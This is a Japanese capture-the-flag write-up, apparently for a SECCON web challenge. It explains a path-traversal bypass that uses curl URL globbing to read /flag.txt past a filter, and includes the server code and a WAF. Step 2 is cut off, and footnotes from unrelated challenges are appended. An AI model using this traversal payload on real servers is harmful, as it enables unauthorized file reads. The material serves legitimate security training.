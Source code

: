 サーバ上の`/flag.txt`からフラグを盗む問題です。

### Solution

#### Step 1: path traversal

サーバ上では、ファイルの中身を見るためにcurlを使っています:
```python
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

`/flag.txt`を表示するためにはpath traversalをしたくなりますが、
```python
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```
で防がれています。

ところでcurlには[URL globbing](https://everything.curl.dev/cmdline/globbing)という機能があり、一度に複数のURLへのアクセスが可能です[^easylfi-1]。
実はこの機能を使えばbypassが可能です:

[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。

```sh
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder
```

ただし、
```python
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response
```
のWAFによって、フラグをそのまま表示することができないのでもう1段階なにかをする必要があります。

#### Step 2: bypassing WAF

サーバは、curlの出力結果を
```python
    return template(proc.stdout.decode(), request.args)
```
で変換したあとにレスポンスとして返しています。


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。